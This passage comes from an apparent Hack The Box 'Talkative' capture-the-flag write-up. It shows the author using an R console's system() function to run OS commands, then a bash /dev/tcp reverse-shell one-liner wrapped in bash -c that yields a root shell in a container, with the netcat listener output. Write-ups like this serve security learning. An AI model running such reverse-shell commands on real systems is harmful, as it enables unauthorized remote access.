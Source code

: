 Instead, what draws my attention was "R" at the top menu.

I found a manual to execute commands on "R" :
https://stat.ethz.ch/R-manual/R-devel/library/base/html/system.html

According to the reference, I can invoke OS command with the following command :

```R
system("os_command", intern=True)
```

I put commands on the input, and "ctrl + shift + enter" to run it.

![](attachments/talkative_11.png)

To open a reverse shell, I tried the following command but it was not working.

```bash
system("bash -i >& /dev/tcp/10.10.14.7/9000 0>&1", intern=TRUE);
```

Instead, I wrapped the command with another `bash -c` command, and it worked.

```bash
system("bash -c 'bash -i >& /dev/tcp/10.10.14.7/9000 0>&1'", intern=TRUE);
```

Then I can open a reverse shell.

```bash
┌──(kali㉿kali)-[~/htb/talkative]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.11.155] 58328
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@b06821bbda78:/# id
id
uid=0(root) gid=0(root) groups=0(root)
```




# Shell as `www-data` on Bolt Container

### Enumeration
